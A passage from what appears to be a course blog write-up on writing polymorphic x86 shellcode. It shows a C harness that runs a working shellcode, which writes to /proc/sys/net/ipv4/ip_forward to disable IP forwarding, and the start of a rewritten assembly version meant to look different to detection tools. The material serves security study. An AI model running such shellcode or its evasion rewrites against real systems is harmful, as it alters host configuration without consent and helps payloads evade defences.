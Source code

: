 ```c
 804808c:   51                      push   %ecx
 804808d:   6a 30                   push   $0x30
 804808f:   89 e1                   mov    %esp,%ecx
 8048091:   31 d2                   xor    %edx,%edx
 8048093:   b2 01                   mov    $0x1,%dl
 8048095:   b0 04                   mov    $0x4,%al
 8048097:   cd 80                   int    $0x80
 8048099:   31 c0                   xor    %eax,%eax
 804809b:   83 c0 06                add    $0x6,%eax
 804809e:   cd 80                   int    $0x80
 80480a0:   31 c0                   xor    %eax,%eax
 80480a2:   40                      inc    %eax
 80480a3:   31 db                   xor    %ebx,%ebx
 80480a5:   cd 80                   int    $0x80
*/

#include <stdio.h>
int main(int argc,char **argv){

char shellcode[] = "\x31\xc0\x50\x68\x77\x61\x72\x64\x68"
                   "\x5f\x66\x6f\x72\x68\x34\x2f\x69\x70"
                   "\x68\x2f\x69\x70\x76\x68\x2f\x6e\x65"
                   "\x74\x68\x73\x79\x73\x2f\x68\x72\x6f"
                   "\x63\x2f\x66\x68\x2f\x70\x89\xe3\x31"
                   "\xc9\xb1\x01\xb0\x05\xcd\x80\x89\xc3"
                   "\x31\xc9\x51\x6a\x30\x89\xe1\x31\xd2"
                   "\xb2\x01\xb0\x04\xcd\x80\x31\xc0\x83"
                   "\xc0\x06\xcd\x80\x31\xc0\x40\x31\xdb"
                   "\xcd\x80";
                   
     printf("Length: %d\n",strlen(shellcode));
     (*(void(*)()) shellcode)();
     
     return 0;
}
```
Before we begin, lets make sure that this shellcode works.
![shellcode-848-og-running](/assets/SLAE-x86/6.1-shellcode-848-og-running.PNG)
So the shellcode is working fine. Lets write a polymorphic version for the above shellcode. Dumping assemby in Intel syntax.
```nasm
section .text
global _start

_start:
        xor eax,eax
        push eax
        push dword 0x64726177
        push dword 0x726f665f
        push dword 0x70692f34
        push dword 0x7670692f
        push dword 0x74656e2f
        push dword 0x2f737973
        push dword 0x2f636f72
```
